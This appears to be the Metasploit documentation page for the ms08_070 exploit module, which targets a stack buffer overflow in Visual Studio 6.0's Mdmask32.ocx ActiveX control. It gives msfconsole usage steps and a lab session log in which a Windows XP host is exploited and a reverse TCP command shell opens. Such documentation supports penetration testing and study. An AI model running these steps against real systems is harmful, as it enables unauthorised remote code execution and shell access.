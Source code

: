 ## Vulnerable Application

This module exploits a stack buffer overflow in Microsoft Visual
Studio 6.0. When passing a specially crafted string to the Mask
parameter of the Mdmask32.ocx ActiveX Control, an attacker may
be able to execute arbitrary code.


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/browser/ms08_070_visual_studio_msmask`
1. Do: `set SRVHOST [host]`
1. Do: `set SRVPORT [port]`
1. Do: `set URIPATH [uri]`
1. Do: `set PAYLOAD [payload]`
1. Do: `run`
1. Open the server URL on a vulnerable system


## Options

### URIPATH

The server URI path to use. (default: `/`)


## Scenarios

### Windows XP SP3 (x86) (English)

```
msf > use exploit/windows/browser/ms08_070_visual_studio_msmask
[*] Using configured payload windows/shell/reverse_tcp
msf exploit(windows/browser/ms08_070_visual_studio_msmask) > set srvhost 0.0.0.0
srvhost => 0.0.0.0
msf exploit(windows/browser/ms08_070_visual_studio_msmask) > set srvport 8080
srvport => 8080
msf exploit(windows/browser/ms08_070_visual_studio_msmask) > set lhost 192.168.200.130 
lhost => 192.168.200.130
msf exploit(windows/browser/ms08_070_visual_studio_msmask) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] Using URL: http://192.168.200.130:8080/
[*] Server started.
msf exploit(windows/browser/ms08_070_visual_studio_msmask) > 
[*] 192.168.200.173  ms08_070_visual_studio_msmask - Sending Microsoft Visual Studio Mdmask32.ocx ActiveX Stack Buffer Overflow
[*] Sending stage (240 bytes) to 192.168.200.173
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.173:1052) at 2025-06-22 03:01:18 -0400
```
